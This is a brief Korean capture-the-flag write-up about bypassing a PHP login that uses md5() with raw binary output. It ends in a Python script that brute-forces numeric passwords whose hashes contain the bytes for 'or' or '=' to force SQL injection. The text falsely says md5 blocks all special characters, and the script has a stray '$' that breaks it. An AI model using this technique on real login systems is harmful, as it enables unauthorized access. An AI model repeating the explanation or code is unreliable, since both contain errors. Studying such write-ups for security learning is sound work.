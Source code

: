 ## 해설
### md5
---
md5는 php에서 특수문자들을 모두 막는 함수이다. 그래서 md5안에서는 특수문자들을 사용할 수 없다. 또한 뒤에 True 혹은 False를 줘서 True면 32Byte의 Hex값을 16Byte의 바이너리 값으로 반환해준다. False면 바이너리로 변환하지 않고 반환한다. 기본값은 False로 설정되어있다. 그래서 우리는 쿼리 사이에 `'or'`을 넣어서 무조건 True가 나오게 바꾸어야 한다. 혹은 `'='`이 들어가서 false injection을 해야 한다.
### 익스플로잇
```py
import hashlib
for password in range(1, 10000000):
  md5_hash = hashlib.md5(str(password).encode()).hexdigest()
  if '273d27' in md5_hash: # '='을 ascii code로 바꾸었을때
    print(password)
  if '276f72' in md5_hash: $ # 'or'을 ascii code로 바꾸었을때
    print(password)
```
